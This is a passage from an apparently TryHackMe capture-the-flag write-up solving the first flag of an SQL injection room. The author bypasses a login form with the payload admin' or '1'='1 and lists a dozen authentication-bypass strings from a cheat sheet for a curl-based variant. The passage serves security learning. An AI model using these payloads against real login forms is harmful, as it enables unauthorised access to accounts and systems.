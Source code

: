 We have username and password boxes, it's safe to assume we'll be doing a simple sql injection authentication bypass technique here.

I tried a few different ones from the cheatsheet mentioned above, this was the one that worked for me:

```text
admin' or '1'='1
```

Simply enter that in the Username field and press Login:

![sqhell-admin-bypass](../assets/images/2021-06-08-22-20-14.png)

We are taken to another page which reveals the first flag:

![sqhell-browser-1](../assets/images/2021-06-08-22-21-09.png)

## Flag 1 - In-Band/Error Based - Curl Method

We can also do this using curl, with the same authentication bypass technique. To automate the process of finding which one works I copied the examples from the cheatsheet [here](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet) to a file:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# cat bypass.txt
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
<SNIP>
```
